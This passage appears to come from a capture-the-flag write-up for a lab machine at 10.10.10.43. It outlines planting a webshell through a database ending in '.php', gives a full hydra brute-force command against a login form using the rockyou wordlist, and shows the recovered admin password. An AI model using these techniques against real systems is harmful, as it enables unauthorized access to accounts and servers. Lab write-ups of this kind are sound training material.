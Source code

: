 Create a database ending in `.php` and add a table with a `txt` field containing a webshell.

![](../assets/Pasted%20image%2020250611130127.png)

The path to the shell

![](../assets/Pasted%20image%2020250611130007.png)

But for now, I can't reach it.


We can also try `hydra` at `/management`

```shell
$ hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form /department/login.php:"username=^USER^&password=^PASS^:Invalid Password"
```

![](../assets/Pasted%20image%2020250611123631.png)

`admin:1q2w3e4r5t`
